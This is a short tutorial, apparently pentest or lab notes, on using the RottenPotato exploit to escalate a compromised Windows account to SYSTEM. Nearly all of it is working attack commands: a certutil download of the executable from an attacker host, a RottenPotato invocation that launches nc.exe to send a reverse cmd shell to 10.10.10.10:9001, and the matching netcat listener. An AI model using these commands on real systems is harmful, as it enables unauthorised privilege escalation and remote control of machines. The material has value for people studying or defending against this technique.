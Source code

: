 RottenPotato is an executable that escalates a users privilege.
The method behind this is a local privilege escalation from a service account or standard user to SYSTEM.
https://github.com/foxglovesec/RottenPotato

To identify if this exploit works, firstly a user will need to compromise a Windows system. Once compromised, run:
```
whoami /priv
```
If SeImpersonatePrivilege is enabled then this exploit may work.

Transferring the executable to the compromised machine can be done with this command:
```
cmd /c certutil.exe -urlcache -split -f http://10.10.10.10/RottenPotato.exe RottenPotato.exe
```

Once RottenPotato has been successfully transferred over, run the below command to spawn a shell a SYSTEM:
```
RottenPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.10.10 9001" -t *
```
(It is worth noting nc.exe will need to be transferred onto the system, this can be done with the same certuil method as above).

Setting up a listener prior to running the above command should give us a SYSTEM shell:
```
nc -nlvp 9001
```

Congratulations, you have successfully used RottenPotato to escalate a users privileges.

